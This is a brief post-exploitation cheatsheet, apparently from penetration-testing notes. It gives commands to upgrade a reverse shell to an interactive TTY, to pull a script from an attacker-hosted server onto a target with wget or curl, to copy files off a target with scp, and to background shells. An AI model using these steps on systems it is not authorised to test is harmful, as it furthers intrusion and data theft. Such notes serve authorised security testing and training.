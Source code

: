 # 🐚 Post-Exploitation Cheatsheet

## Reverse Shell Upgrades
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Then press Ctrl+Z, run:
stty raw -echo; fg
```

## File Transfers
```bash
# HTTP server (host)
python3 -m http.server 8000

# Wget (target)
wget http://<YOUR_IP>:8000/file.sh -O /tmp/file.sh

# Curl
curl http://<YOUR_IP>:8000/file.sh -o /tmp/file.sh

# SCP
scp user@target:/path/to/file .
```

## Backgrounding Shells
```bash
Ctrl+Z
bg
```